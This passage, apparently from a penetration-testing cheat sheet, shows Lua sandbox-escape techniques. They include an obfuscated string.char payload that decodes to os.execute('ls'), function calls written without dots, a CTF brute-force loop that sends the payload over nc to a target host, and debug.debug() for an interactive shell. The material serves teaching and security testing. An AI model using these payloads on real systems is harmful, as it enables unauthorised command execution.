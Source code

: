 ```

**Eval with command execution:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
```
Some tricks to **call functions of a library without using dots**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
```
Enumerate functions of a library:

```bash
for k,v in pairs(string) do print(k,v) end
```
```
Note that every time you execute the previous one liner in a **different lua environment the order of the functions change**. Therefore if you need to execute one specific function you can perform a brute force attack loading different lua environments and calling the first function of le library:

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
```
**Get interactive lua shell**: If you are inside a limited lua shell you can get a new lua shell (and hopefully unlimited) calling:

```bash
debug.debug()
```
```
## References

- [[https://www.youtube.com/watch?v=UO618TeyCWo) (Slides: [https://deepsec.net/docs/Slides/2015/Chw00t_How_To_Break%20Out_from_Various_Chroot_Solutions\_-_Bucsay_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t_How_To_Break%20Out_from_Various_Chroot_Solutions_-_Bucsay_Balazs.pdf)|https://www.youtube.com/watch?v=UO618TeyCWo]]



